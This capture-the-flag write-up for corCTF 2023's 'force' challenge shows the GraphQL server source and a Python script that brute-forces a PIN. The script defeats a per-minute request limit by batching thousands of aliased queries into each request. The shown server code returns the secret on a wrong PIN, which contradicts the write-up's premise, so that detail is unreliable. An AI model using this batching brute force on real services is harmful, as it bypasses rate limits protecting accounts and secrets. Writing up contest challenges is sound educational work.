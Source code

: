 ```yaml
---
title: 2023 corCTF - force
author: thanguyen165
date: 2023-07-31 00:00:00 +0700
categories: [Write-ups, 2023_corCTF]
tags: [Web Exploitation, write-ups]
---
```


* 118 solves / 124 points
* author: larry

## Description

> Unbreakable vault door!

### Attached

[force.tar.gz](https://static.cor.team/uploads/a9d33f3445ab361cb58b31918d99a2a26f47b86dc55e77ee881d61a5d2bd2da7/force.tar.gz)

```javascript
import fastify from 'fastify'
import mercurius from 'mercurius'
import { randomInt } from 'crypto'
import { readFile } from 'fs/promises'

const app = fastify({
    logger: true
});
const index = await readFile('./index.html', 'utf-8');

const secret = randomInt(0, 10 ** 5); // 1 in a 100k??

let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return secret;
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u')
    }
    requests --;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 80 });
```

## Analyzation

This challenge requires knowledge in [graphql](https://graphql.org/learn/queries/).

Check these lines
```javascript
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return secret;
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});
```

So we need to find the correct ```pin``` in 100k numbers.

The author limits the requests to 10
```javascript
let requests = 10;
```

The answer is so simple. Just send 10000 queries in 1 payload.

Got some troubles in queries? Check [stackoverflow.com](https://stackoverflow.com/questions/50462944/is-it-possible-to-query-the-same-field-multiple-times-with-graphql) and [graphql.org](https://graphql.org/learn/queries/#aliases).

## Solution

```python
import requests

FLAG_PREFIX = "cor"
URL = "https://web-force-force-40650221ed658a78.be.ax/"
headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}

payload = ''

for i in range(10 ** 5 + 1):
    payload = payload + 'i' + str(i) + ': flag(pin: ' + str(i) + ')\n'
    if i % (10 ** 4) == 0:
        print(i)
        payload = '{' + payload + '}'
        response = requests.post(URL, data=payload, headers=headers)

        if FLAG_PREFIX in response.text:
            index = response.text.find(FLAG_PREFIX)
            flag = ''
            while response.text[index] != '}':
                flag = flag + str(response.text[index])
                index += 1
            flag = flag + '}'
            print("flag: {}".format(flag))
            break
        payload = ''
```

The flag is (crazy)
```
corctf{S                T                  O               N                   K                 S}
```

(it contains a lot of space, yeah).

## Summarization

- [Graphql language](https://graphql.org/learn/queries/)
- [Graphql alias](https://graphql.org/learn/queries/#aliases)